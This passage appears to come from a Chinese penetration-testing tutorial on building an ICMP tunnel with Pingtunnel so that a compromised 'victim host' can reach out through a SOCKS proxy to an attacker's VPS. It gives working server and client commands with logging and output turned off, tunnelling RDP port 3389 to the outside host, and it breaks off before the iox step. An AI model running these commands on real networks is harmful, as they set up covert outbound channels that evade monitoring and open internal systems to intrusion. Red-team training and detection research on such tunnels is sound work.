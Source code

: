 [![](assets/1708095858-c69b84b1c3943e9d14337e66bb6dfd1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202846-e21d92f6-e8e4-1.png)

#### Pingtunel 配合 iox 代理 socks 出网

Pingtunnel 搭建完 ICMP 隧道后，通过 iox 配合代理 Socks5 出网，以达到内网穿透。

1、服务端（VPS），Pingtunnel 搭建 ICMP 隧道，这里选择不打印日志

```bash
sudo ./pingtunnel -type server -noprint 1 -nolog 1 -key 000000
```

[![](assets/1708095858-4f824631e3e555be493e023a20c647a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202857-e903060a-e8e4-1.png)

2、客户端（受害主机），启动 Pingtunnel，打通 ICMP 隧道（注意 ICMP 转发方式为 TCP）

```bash
pingtunnel.exe -type client -l [本机 IP：ICMP 隧道端口] -s [服务端 IP_VPS] -t [服务端 IP_VPS:ICMP 隧道转发至 VPS 的端口] -tcp 1 -noprint 1 -nolog 1 -key [密钥]
pingtunnel.exe -type client -l 127.0.0.1:3389 -s 1.x.x.x -t 1.x.x.x:3333 -tcp 1 -noprint 1 -nolog 1 -key 000000
```

